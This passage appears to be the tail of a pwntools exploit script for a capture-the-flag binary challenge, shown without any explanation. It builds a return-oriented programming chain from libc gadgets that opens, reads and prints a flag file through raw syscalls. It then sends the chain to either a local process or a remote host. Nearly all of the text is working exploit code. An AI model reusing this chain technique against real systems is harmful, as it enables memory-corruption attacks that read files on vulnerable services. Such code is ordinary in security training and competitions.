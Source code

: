 ```python
    
    add(7, p)

    p = b""
    p += p64(libc.search(asm("pop rdi; ret;")).__next__() + 1) * 8 # ret sled
    p += p64(libc.search(asm("pop rdi; ret;")).__next__())
    p += p64(CHUNK[3]) # FLAG_LOCATION
    p += p64(libc.search(asm("pop rsi ; pop r15 ; ret")).__next__())
    p += p64(0)
    p += p64(0)
    p += p64(libc.search(asm("pop rdx ; pop rbx ; ret")).__next__())
    p += p64(0)
    p += p64(0)
    p += p64(libc.search(asm("pop rax; ret;")).__next__())
    p += p64(2)
    p += p64(libc.address + 0x8bee6) # syscall ; ret

    p += p64(libc.search(asm("pop rdi; ret;")).__next__())
    p += p64(open_fd)
    p += p64(libc.search(asm("pop rsi ; pop r15 ; ret")).__next__())
    p += p64(CHUNK[3])
    p += p64(0)
    p += p64(libc.search(asm("pop rdx ; pop rbx ; ret")).__next__())
    p += p64(0x200)
    p += p64(0)
    p += p64(libc.search(asm("pop rax; ret;")).__next__())
    p += p64(0)
    p += p64(libc.address + 0x8bee6) # syscall ; ret

    p += p64(libc.search(asm("pop rdi; ret;")).__next__())
    p += p64(1)
    p += p64(libc.search(asm("pop rsi ; pop r15 ; ret")).__next__())
    p += p64(CHUNK[3])
    p += p64(0)
    p += p64(libc.search(asm("pop rdx ; pop rbx ; ret")).__next__())
    p += p64(0x200)
    p += p64(0)
    p += p64(libc.search(asm("pop rax; ret;")).__next__())
    p += p64(1)
    p += p64(libc.address + 0x8bee6) # syscall ; ret

    io.sendline(p)


    io.interactive()

if __name__ == "__main__":
    io, libc = null, null

    if args.REMOTE:
        REMOTE = True
        io = remote(HOST, PORT)
        # libc = ELF("./libc.so.6")
        
    else:
        LOCAL = True
        io = process(
            [TARGET, ],
            env={
            #     "LD_PRELOAD":DIR+"/___",
            #     "LD_LIBRARY_PATH":DIR+"/___",
            },
        )
```